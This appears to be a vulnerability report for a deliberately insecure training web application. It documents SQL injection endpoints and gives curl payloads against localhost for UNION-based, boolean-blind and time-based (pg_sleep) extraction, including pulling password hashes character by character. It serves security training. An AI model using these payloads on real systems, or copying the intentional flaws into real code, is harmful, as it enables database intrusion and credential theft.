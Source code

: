 # Vulnerability Assessment Report - Secure University Application

## Executive Summary
This application has been deliberately designed with multiple security vulnerabilities for penetration testing and security training purposes. The vulnerabilities are crafted to appear realistic and non-obvious, requiring actual security knowledge to discover and exploit.

## Vulnerability Details

### 1. SQL Injection Vulnerabilities

#### 1.1 Basic SQL Injection (Easy Level)
**Location:** `/api/labs/sqli/easy`
**Vulnerable Code:** Direct string concatenation in SQL query
**Exploitation:**
```bash
# Extract all courses
curl "http://localhost:3020/api/labs/sqli/easy?q=' OR '1'='1"

# Extract database version
curl "http://localhost:3020/api/labs/sqli/easy?q=' UNION SELECT NULL,version()--"

# Extract user table schema
curl "http://localhost:3020/api/labs/sqli/easy?q=' UNION SELECT column_name,data_type FROM information_schema.columns WHERE table_name='users'--"
```

#### 1.2 Blind SQL Injection (Boolean-based)
**Location:** `/api/advsearch/query`
**Parameters:** `q`, `table`, `column`
**Exploitation:**
```bash
# Boolean-based blind SQL injection
curl "http://localhost:3020/api/advsearch/query?q=' AND '1'='1&table=users&column=username"
curl "http://localhost:3020/api/advsearch/query?q=' AND '1'='2&table=users&column=username"

# Extract data character by character
curl "http://localhost:3020/api/advsearch/query?q=' AND SUBSTRING((SELECT password_md5 FROM users WHERE id=1),1,1)='a&table=users&column=username"
```

#### 1.3 Time-based Blind SQL Injection
**Location:** `/api/advsearch/filter`
**Parameter:** `filter`
**Exploitation:**
```bash
# Time-based detection
curl "http://localhost:3020/api/advsearch/filter?term=test&filter=1=1 AND (SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END)"

# Extract data using timing
curl "http://localhost:3020/api/advsearch/filter?term=test&filter=1=1 AND (SELECT CASE WHEN (SUBSTRING((SELECT password_md5 FROM users LIMIT 1),1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END)"
```
